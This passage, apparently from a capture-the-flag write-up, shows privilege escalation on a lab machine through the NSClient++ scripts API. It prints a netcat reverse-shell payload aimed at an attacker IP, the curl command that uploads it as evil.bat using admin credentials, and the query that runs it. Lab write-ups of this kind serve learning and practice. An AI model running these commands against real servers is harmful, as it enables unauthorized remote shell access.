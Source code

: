 ### Taking the API route

While reading through the API documentation at [https://docs.nsclient.org/api/scripts/](https://docs.nsclient.org/api/scripts/) I thought it sounded like a much easier to deal with route than going through the web portal.  With just two simple commands I could upload my script and execute a query against that script to get it to run. The documentation even gave specifics on how to upload the contents of the script by passing it as a string in the command, rather than actually creating and sending a file.

```text
Example¶
Given a file called check_new.bat which contains the following:


@echo OK: %1
@exit 0
We can use the following curl call to upload that as check_new.


curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/check_new.bat --data-binary @check_new.bat
Added check_new as scripts\check_new.bat
```

For my payload script I still used the one recommended by the exploit author, even though I was sending it to the server by a different method.  It was a very simple netcat reverse shell..

```text
#@echo off
c:\Temp\nc.exe 10.10.14.15 4443 -e cmd.exe
```

To send the payload to the server I used `curl` as specified by the documentation and sent the contents of my payload script as `--data-binary "<string>"`.   It prompted me to enter the admin password we had retrieved from the nscp client.  

```text
nadine@SERVMON C:\Temp>curl -s -k -u admin -X PUT \
 https://127.0.0.1:8443/api/v1/scripts/ext/scripts/evil.bat \
 --data-binary "C:\Temp\nc.exe 10.10.15.20 12345 -e cmd.exe" 

 Enter host password for user 'admin': 
 Added evil as scripts\evil.bat
```

After sending the script it let me know that it had added the script under the name `evil`.  This is the name to use to run a query against it in order to run it.

```text
nadine@SERVMON C:\Users\Nadine>curl -s -k -u admin \
 https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=1m
```

At first, I tried executing the script but I didn't receive a reverse shell.  I realized after doing a bit of troubleshooting that I hadn't actually uploaded `nc.exe` to the remote host. My command to transfer the file had not completed successfully, but I had missed the error message it gave in my rush to finish since it was well past my bedtime. _Let this be a lesson to always take your time and pay attention to details, no matter how tired or in a hurry you may be :\)_
